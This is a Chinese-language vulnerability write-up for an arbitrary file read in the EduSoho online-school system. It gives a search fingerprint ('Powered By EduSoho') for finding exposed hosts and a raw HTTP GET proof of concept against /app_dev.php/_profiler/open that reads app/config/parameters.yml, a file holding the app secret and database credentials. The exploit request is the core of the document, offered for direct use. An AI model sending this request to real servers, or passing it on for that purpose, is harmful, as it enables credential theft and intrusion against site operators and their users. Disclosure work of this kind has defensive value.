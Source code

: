 # 

# EduSoho 教培系统 app_dev.php 任意读取漏洞

## 漏洞描述

EduSoho 教培系统是由杭州阔知网络科技研发的开源网校系统。

通过向 /app_dev.php/_profiler/open 端点发送可以读取到 app/config/parameters.yml 文件的内容，拿到该文件中保存的 secret 值以及数据库账号密码等敏感信息。

## 漏洞影响

EduSoho 教培系统

## 网络测绘

```
"Powered By EduSoho"
```

## 漏洞复现

登录页面

![image-20231115095857573](images/image-20231115095857573.png)

指纹

![image-20231115095301932](images/image-20231115095301932.png)

poc

```
GET /app_dev.php/_profiler/open?file=app/config/parameters.yml HTTP/1.1
Host:  
Accept: */*
Content-Type: application/x-www-form-urlencoded
```

![image-20231115095838331](images/image-20231115095838331.png)
